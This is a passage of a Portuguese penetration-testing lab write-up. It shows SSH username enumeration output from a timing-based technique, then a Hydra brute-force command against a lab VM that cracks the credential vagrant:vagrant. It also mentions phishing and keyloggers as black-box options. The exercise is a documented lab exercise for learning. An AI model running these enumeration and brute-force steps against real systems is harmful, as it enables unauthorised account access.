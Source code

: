 **Resultado obtido:**

```
[*] 192.168.56.3:22 - SSH - Using malformed packet technique
[*] 192.168.56.3:22 - SSH - Starting scan
[+] 192.168.56.3:22 - SSH - User 'root' found
[+] 192.168.56.3:22 - SSH - User 'admin' found
[+] 192.168.56.3:22 - SSH - User 'test' found
[+] 192.168.56.3:22 - SSH - User 'guest' found
[+] 192.168.56.3:22 - SSH - User 'info' found
[+] 192.168.56.3:22 - SSH - User 'adm' found
[+] 192.168.56.3:22 - SSH - User 'mysql' found
[+] 192.168.56.3:22 - SSH - User 'user' found
[+] 192.168.56.3:22 - SSH - User 'administrator' found
[+] 192.168.56.3:22 - SSH - User 'oracle' found
[+] 192.168.56.3:22 - SSH - User 'ftp' found
[+] 192.168.56.3:22 - SSH - User 'pi' found
[+] 192.168.56.3:22 - SSH - User 'puppet' found
[+] 192.168.56.3:22 - SSH - User 'ansible' found
[+] 192.168.56.3:22 - SSH - User 'ec2-user' found
[+] 192.168.56.3:22 - SSH - User 'vagrant' found
[+] 192.168.56.3:22 - SSH - User 'azureuser' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Explicação:** Utilizei a técnica de malformed packet para explorar a temporização na resposta SSH. Quando o SSH recebe um usuário válido, ele responde diferente comparado a um usuário inválido. Isso permite enumerar usuários sem fazer brute force de senha.

### 3.3 Passo 2: Brute Force de senha com Hydra

Após a enumeração, obtive uma lista de usuários possíveis. Minha estratégia foi começar com listas menores. Caso não conseguisse, iria subindo o nível das listas. Costumo sempre utilizar wordlists de usernames e passwords de acordo com o idioma do alvo.

Em um teste black box, utilizaria campanhas de phishing, keyloggers e outras possibilidades para atingir o objetivo. Por preferência, utilizei o Hydra para brute-force. Como já obtive os usernames, utilizei apenas o usuário "vagrant":

```bash
hydra -l vagrant -P /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt ssh://192.168.56.3 -t 4
```

**Resultado obtido:**

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-23 21:28:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 17 login tries (l:1/p:17), ~5 tries per task
[DATA] attacking ssh://192.168.56.3:22/
[22][ssh] host: 192.168.56.3   login: vagrant   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-23 21:28:37
```
